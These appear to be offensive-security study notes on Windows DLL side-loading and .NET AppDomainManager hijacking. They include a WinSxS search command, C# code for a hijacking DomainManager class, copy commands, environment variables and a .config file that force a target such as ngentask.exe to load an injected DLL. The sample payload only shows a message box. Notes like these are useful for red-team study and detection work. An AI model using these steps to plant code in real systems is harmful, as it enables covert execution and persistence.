



payloads
DLL side-loading
this abusees the windows dll search order when an application attempts to load its dependencies :
The directory the application is in.
The system directory, typically
C:\Windows\System32.The 16-bit system directory, typically
C:\Windows\System.The Windows directory, typically
C:\Windows.The current working directory.
The directories that are listed in the
PATHenvironment variable.
Use Process Monitor to find hijack oppor : path ends .dll and result is Name NOT FOUND
WinSxS (C:\Windows\WinSxS) stores multiple versions of Windows components and DLLs to maintain application compatibility. Old, vulnerable versions may remain after updates, making them potential DLL side-loading targets.
example of executing old and new version ( the search for certain dll is not the same )
to search for older versions
PS C:\Users\Attacker> ls -Path C:\Windows\WinSxS -Recurse -Filter ngentask.exe | Select -expand FullName


AppDomainManager
there is a way to load DLLs regardless of the search order in windows ( can be utilised for apps writeen in .NET core 3.1 as we can inject a .NET backdoor to execute before the entrypont of the application )
write a class that inherits from AppDomainManager ( .NET FRAMEWORK ) and compile it to a .NET DLL
EXAMPLE :
using System;
using System.Windows.Forms;
namespace AppDomainHijack;
public sealed class DomainManager : AppDomainManager
{
public override void InitializeNewDomain(AppDomainSetup appDomainInfo)
{
MessageBox.Show("Hello World", "Success");
}
}
it needs to be on the same directory as the .NET app that we want to hijack example ( in the ngentask.exe)
PS C:\Users\Attacker> cp C:\Windows\WinSxS\amd64_netfx4-ngentask_exe_b03f5f7f11d50a3a_4.0.15805.0_none_d4039dd5692796db\ngentask.exe ngentask.exe
PS C:\Users\Attacker> cp C:\Tools\AppDomainHijack\bin\Debug\AppDomainHijack.dll domainManager.dll
it can be loaded in two ways :
- via two env variables
APPDOMAIN_MANAGER_ASMandAPPDOMAIN_MANAGER_TYPEand the just execute the .exe
PS C:\Users\Attacker>$env:APPDOMAIN_MANAGER_ASM = 'AppDomainHijack, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null'
PS C:\Users\Attacker>$env:APPDOMAIN_MANAGER_TYPE = 'AppDomainHijack.DomainManager'

- second method is to use the two envs in a conf file
ngentask.exe.config
<configuration>
<runtime>
<appDomainManagerAssembly value="AppDomainHijack, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null" />
<appDomainManagerType value="AppDomainHijack.DomainManager" />
</runtime>
</configuration>